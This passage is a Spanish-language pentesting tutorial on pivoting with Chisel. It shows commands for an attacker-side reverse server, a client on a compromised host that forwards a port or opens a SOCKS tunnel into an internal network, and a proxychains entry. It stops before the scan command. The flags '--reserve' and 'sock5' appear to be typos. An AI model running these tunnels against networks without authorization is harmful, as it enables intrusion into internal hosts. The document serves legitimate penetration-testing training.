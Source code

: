 

# Pivoting con chisel 


Lo primero que tenemos que hacer es descargar el binario de Chisel. Para ello, nos dirigimos al siguiente enlace: [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases). Dentro de este enlace, seleccionamos la versión más actual que sea correspondiente a nuestro sistema operativo. Esto nos descargará un archivo comprimido, el cual al descomprimirlo contendrá el binario correspondiente.


Tenemos un ejemplo donde hay una máquina víctima 2 que se encuentra en un segmento de red distinto al de la máquina atacante, y solo se puede acceder a ella a través de la máquina víctima 1, a la cual tenemos acceso ya que se encuentra en el mismo segmento de red que la máquina atacante. Sin embargo, la máquina víctima 1 tiene otra interfaz que comparte con la máquina víctima 2. Entonces, si queremos tener visibilidad con las IPs de la máquina víctima 2 en la máquina atacante, lo primero que debemos hacer es compartir el binario de Chisel a nuestra máquina víctima 1 de cualquier forma. Después, en nuestra máquina atacante, ejecutamos el siguiente comando:


```bash 
./chisel server --reserve -p puerto 
```

Este comando ejecuta el servidor Chisel y reserva el puerto especificado para la conexión. Una vez que el servidor está en funcionamiento en nuestra máquina atacante, si deseamos acceder a un puerto específico de la máquina víctima 2 desde la máquina atacante, podemos ejecutar el siguiente comando desde la máquina víctima 1.

```bash
./chisel client ip_servidor:puerto R:puerto_maquina_victima_2:ip_maquina_victima_2:puerto_maquina_atacante
```

Este comando establece una conexión con un servidor Chisel remoto y crea un túnel hacia la máquina víctima 2 a través de la máquina víctima 1. Si, en cambio, queremos obtener acceso a todas las IPs configuradas en el mismo segmento de red que la máquina víctima 1, podemos ejecutar el siguiente comando.


```bash 
./chisel client ip_servidor:puerto R:socks
```


Este comando establece una conexión con un servidor Chisel remoto y configura un túnel de tipo SOCKS. Por defecto, el túnel SOCKS se encuentra en el puerto 1080. Ahora, lo que tenemos que hacer es abrir en nuestra máquina atacante el archivo `/etc/proxychains.conf`, donde al final solo tendrás que agregar la siguiente línea.


```
sock5 127.0.0.1 1080
```


Entonces, al usar proxychains, este leerá del archivo previamente configurado, se conectará a través del localhost en el puerto 1080, y al establecer la conexión, permitirá la conectividad con un segmento que previamente no estaba visible. Ahora podemos ejecutar un comando para escanear los puertos de una dirección IP que antes no era accesible desde la máquina atacante. El comando es el siguiente:
